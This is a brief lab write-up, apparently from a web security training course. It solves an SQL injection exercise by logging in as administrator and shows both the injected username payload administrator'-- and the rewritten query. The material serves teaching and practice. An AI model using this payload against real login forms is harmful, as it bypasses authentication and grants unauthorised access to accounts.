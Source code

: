 # Subverting application logic

## SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

Solution:

```sql
administrator'--
```

Modified SQL query:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'alpha'
```